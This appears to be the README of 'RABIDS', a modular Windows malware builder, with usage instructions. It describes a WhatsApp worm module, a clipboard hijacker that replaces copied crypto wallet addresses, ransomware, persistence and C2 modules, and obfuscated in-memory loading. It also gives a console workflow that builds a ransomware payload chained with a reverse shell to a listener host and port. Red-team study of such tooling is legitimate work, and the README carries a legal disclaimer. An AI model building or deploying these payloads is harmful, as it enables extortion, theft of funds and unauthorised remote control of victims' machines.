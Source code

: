 ## What's New

### VERSION 0.1.4
- **New Module: `daemon/bartmossbrainworm`** - Messaging worm
- **Features:**
  - Spreads itself by automatically sending a configurable message to all chats in WhatsApp Web
  - The message can be set using the `set MESSAGE "your text"` command before build
  - Worm-like propagation via messaging apps

### VERSION 0.1.3
- **New Module: `daemon/gremlin`** - Clipboard wallet address hijacker
- **Features:**
  - Monitors clipboard for copied wallet addresses (Bitcoin, Ethereum, BEP-20, Solana)
  - Automatically replaces detected wallet addresses with user-configurable predefined addresses
  - Predefined addresses for each chain can be set using the `set` command before build

---

## Overview
**RABIDS** Roving Autonomous Bartmoss Interface Drones is a modular Windows malware generation framework. It empowers security researchers and red teamers to rapidly build custom malware payloads by chaining together a variety of modules—such as ransomware, persistence loaders, C2 servers, and more—into a single executable. RABIDS is designed for advanced adversary simulation, malware research, and authorized red team operations.

> **Warning:** This tool is for educational and authorized security research only. Misuse may be illegal and unethical.

---

## Features

- **Modular Payloads:** Chain multiple modules (ransomware, persistence, C2, etc.) into a single EXE.
- **Customizable Options:** Configure module and build options (e.g., ransom note, C2 port, EXE name).
- **Messaging Worm Module:** `daemon/bartmossbrainworm` can send a custom message to all WhatsApp chats, simulating worm-like spread.
- `use <module>` — Add a module to the build chain
- `set <OPTION> <VALUE>` — Set build/module options
- `show modules` — List available modules
- `show options` — Show current build/module options
- `build` — Build the final EXE payload
- `clear` — Clear selected modules
- `delete` — Remove a module from the chain
- `exit` — Exit the tool

**For detailed documentation on each command and advanced usage, see the [RABIDS Wiki](https://github.com/sarwaaaar/RABIDS/wiki).**

### Example Workflow
```
> show modules
> use daemon/krash
> set NOTE "Your files have been encrypted! Contact evil@domain.com."
> use daemon/silverhandghost
> set LHOST 192.168.1.10
> set LPORT 4444
> build
```
- The final EXE will be saved in the `.LOOT` directory.

---

## Advanced Features
- **Module Chaining:** Combine multiple behaviors in one payload.
- **Custom Build Options:** Set EXE name, enable obfuscation, etc.
- **In-Memory Execution:** Use Rust loader for stealthy delivery.

---

## Legal Disclaimer

RABIDS is intended for educational purposes and authorized security testing only. You must have explicit permission to use this tool against any system or network. The authors and contributors are not responsible for misuse, damage, or legal consequences. Always follow applicable laws and ethical guidelines.

---

## Contributing

Contributions are welcome! Please fork the repository, create a feature branch, and submit a pull request with a detailed description of your changes.

---

## License

MIT License. See the `LICENSE` file for details.

